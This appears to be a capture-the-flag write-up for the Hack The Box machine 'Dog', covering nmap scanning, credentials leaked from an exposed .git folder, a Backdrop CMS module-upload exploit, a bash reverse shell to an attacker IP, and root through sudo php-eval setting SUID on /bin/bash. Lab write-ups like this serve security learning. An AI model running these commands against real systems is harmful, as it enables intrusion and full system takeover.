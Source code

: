 1. Run nmap to discover any open ports from the server. The results are port 22 and 80 are opened. <br>
![image](https://github.com/user-attachments/assets/c61f1343-5f7a-4f18-b698-7034aa7e0666)
2. There is robots.txt file in there, check and there is no interesting information related to the initial access. <br>
![image](https://github.com/user-attachments/assets/ac4e6fe5-3915-4bfe-a81c-e8bb1b2a4c6f)
3. There is a user from the blog but I can't discover any password related to this user. <br>
![image](https://github.com/user-attachments/assets/4369ed99-f7db-48be-b09f-a2b4596b4354)
4. Check again with dirsearch and there is .git folder from the server. <br>
![image](https://github.com/user-attachments/assets/d7097385-ba66-4894-88d2-83dabe0accb4)
![image](https://github.com/user-attachments/assets/8217a6ab-57c9-4cc6-b372-e9732833b5b1)
5. I dump the git content with command **git-dumper http://10.10.11.58/.git/**. <br>
6. Run git-show and found several interesting info such as: <br>
User _> tiffany@dog.htb <br>
Creds -> root:BackDropJ2024DS2024 <br>
![image](https://github.com/user-attachments/assets/7a1f58ec-e8ca-4591-8696-0300ed3559a1)
![image](https://github.com/user-attachments/assets/18e85612-85eb-4ee8-990e-d318cedb3926)
7. A bit rabbithole in here and I try to login with tiffany and the root password. With those creds, I successfully login into the website as admin. <br>
![image](https://github.com/user-attachments/assets/c2d9237b-d0a9-4dd6-a5bf-4031bcf931c2)
8. In the beginning, I discover that the server use backdrop CMS. So I try to use this exploit from this [link](https://www.exploit-db.com/exploits/52021). <br>
![image](https://github.com/user-attachments/assets/cdfe95f3-dd5f-4c20-9d30-d90d6d893171)
9. Follow the steps and change the file extension into .tar. Upload it into the /admin/modules/install page. <br>
![image](https://github.com/user-attachments/assets/2c3a9d12-7d7c-47df-a489-bf04c99da265)
10. Open the modules in /modules path and it shows the shell folder that I made. <br>
![image](https://github.com/user-attachments/assets/f57f888a-9814-4f99-abc3-6eb6758db23d)
11. Open the shell.php file and I successfully do RCE from the file. <br>
![image](https://github.com/user-attachments/assets/94da38f9-1beb-49f4-9ddb-e9143d28e764)
12. Run reverse shell command. <br>
**Command: bash -c "bash -i >& /dev/tcp/10.10.14.68/443 0>&1"** <br>
<img width="336" alt="image" src="https://github.com/user-attachments/assets/d26b5e1c-6734-453b-90fe-72725bfd4a8f" /> <br>
13. Check the home directory and found two users. I tried both with the tiffany password and one of them is worked. <br>
![image](https://github.com/user-attachments/assets/42773726-afce-4f96-8c1f-d227e49bb138)
14. The user.txt is found inside his home directory. <br> 
![image](https://github.com/user-attachments/assets/dc421e1a-b830-4aee-bdfb-3e0e935c8c39)
15. Run sudo -l and /usr/bin/bee service can be run without any root pass. <br>
![image](https://github.com/user-attachments/assets/54033313-6907-423c-a3db-b63cdebf15d2)
16. I check for the command that can be run from the service and I realize that I can run php-eval from the service. <br>
![image](https://github.com/user-attachments/assets/f0809951-2aed-4dfe-9624-82223d754e56)
![image](https://github.com/user-attachments/assets/9082faf4-c68f-4e82-b557-3c5e45bfb417)
17. Try to run whoami with this command. <br>
**Command: sudo /usr/local/bin/bee --root=/var/www/html/ php-eval "system("whoami")"** <br>
<img width="518" alt="image" src="https://github.com/user-attachments/assets/e292cce6-f607-406b-8ecd-ce97c0d65a56" />
18. It works! Now I'm able to change the /bin/bash privilege into SUID. <br>
**Command: sudo /usr/local/bin/bee --root=/var/www/html/ php-eval "system('chmod u+s /bin/bash')"** <br>
![image](https://github.com/user-attachments/assets/5c2d3c71-3f6e-47ea-9dc9-b6c3025814a9)
19. Run /bin/bash -p to access root shell and the root.txt file found inside the /root directory. <br>
![image](https://github.com/user-attachments/assets/c7c1198e-26d1-4c67-b140-c03811cc6d0a)

























